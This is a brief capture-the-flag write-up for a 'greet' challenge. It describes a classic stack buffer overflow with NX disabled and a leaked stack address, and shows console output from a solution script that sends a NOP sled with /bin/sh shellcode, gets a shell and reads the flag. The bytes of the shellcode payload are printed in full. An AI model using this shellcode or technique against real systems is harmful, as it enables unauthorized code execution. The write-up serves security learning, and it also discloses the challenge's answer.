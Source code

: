 # Solution

NX is disabled and the binary prints out the start of stack. What contestants need to do is fill the stack with shellcode and overflow into RIP with stack address that was provided by the binary.

Solution is in `greet-solution.py`.

```sh
$ python3 greet-solution.py 
[+] Opening connection to localhost on port 9000: Done
[*] stack address 140734564333952
[*] Switching to interactive mode
HELLO \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90jhH\xb8/bin///sPH\x89\xe7hri\x814$1\xf6V^H\xe6VH\x89\xe61\xd2j;X\x0f\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
ibctf{cl4ss1c_buffer-0verfl0w}
```
